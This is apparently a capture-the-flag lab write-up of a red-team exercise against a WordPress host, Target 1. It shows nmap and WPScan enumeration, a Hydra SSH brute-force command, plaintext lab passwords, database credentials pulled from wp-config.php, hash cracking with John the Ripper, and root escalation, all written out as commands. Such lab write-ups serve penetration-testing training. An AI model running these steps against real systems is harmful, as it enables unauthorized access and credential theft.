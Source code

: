 # Red Team: Summary of Operations

Network Typology

<img width="553" alt="Screenshot 2022-08-23 030424" src="https://user-images.githubusercontent.com/100730516/186093586-2e8179b1-08aa-4c37-9513-7e2c2d8b3153.png">

|   Hostname    |        IPv4         |          OS          |
|---------------|---------------------|----------------------|
| ELK           | 192.168.1.100       |  Ubuntu              |
| Kali          | 192.168.1.90        |  Debian Kali         |
| Capstone      | 192.168.1.105       |  Ubuntu              |
| Target 1      | 192.168.1.110       |  Debian GNU/Linux 8  |

<b>Table of Contents<b>
1. Exposed Services
2. Critical Vulnerabilities
3. Exploitation

<b>Exposed Services<b>
*Nmap scan results for each machine reveal the below services and OS details:

*Command: $ nmap -sV 192.168.1.110

*This scan identifies the services below as potential points of entry:

<b>Target 1<b>

1. Port 22/TCP Open SSH
2. Port 80/TCP Open HTTP
3. Port 111/TCP Open rcpbid
4. Port 139/TCP Open netbios-ssn
5. Port 445/TCP Open netbios-ssn

<b>Critical Vulnerabilites<b>
  
The following vulnerabilities were identified on each target:

<b>Target 1<b>

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation

<b>Exploitation<b>
  
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

<b>Target 1<b>

flag1.txt: {b9bbcb33e11b80be759c4e844862482d}

*Exploit Used:

*WPScan to enumerate users on the Target1 WordPress site.

*Command: $ wpscan --url 192.168.1.110/wordpress $ wpscan --url 192.168.1.110 --enumerate -u



Targeting the user michael

Small manual Brute Force attack to guess/finds Michael's password.

First, the user's password is weak and obvious.

Second, for pratice, Hydra can be used to crack Michaels's password:

Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh


Capturing Flag1: SSH in as Michael, transvering through directories and files.
The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
Commands:
ssh michael@192.168.1.110
password: michael
cd /var/www/html
ls -l
nano services.html


flag2.txt: {fc3fd5Bdcdad9ab23facac6e9a365e581c33}

Exploit Used

The same exploit used to gain flag1.
Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found.
Commands:
ssh michael@192.168.1.110
password: michael
cd /var/www
ls -l
cat flag2.txt


flag3.txt: {afc01ab56b50591e7dccf93122770cd23}

Exploit Used:

Same exploits to gain Flag1 and Flag2.
Capturing Flag3: Access the MYSQL database.
Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
Commands:
mysql -u root -p 'R@v3nSecurity'
show databases;
use wordpress;
select * from wp_posts;


flag4.txt: {715dea6c055b9fe3337544932F2941ce}

Exploit Used:

Unsalted password hash and use of the privilege escalation with Python.

Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.

Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.

The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.

Commands:
mysql -u root -p'R@v3nSecurity'
show databases;
use wordpress;
show tables;
select * from users;
On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.

Command: - john wp_hashes.txt



Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.
Commands:
ssh steven@192.168.1.110
password: pink:84
sudo -l
su root
password: toor
find /-iname flag*
cat /root/flag4.txt




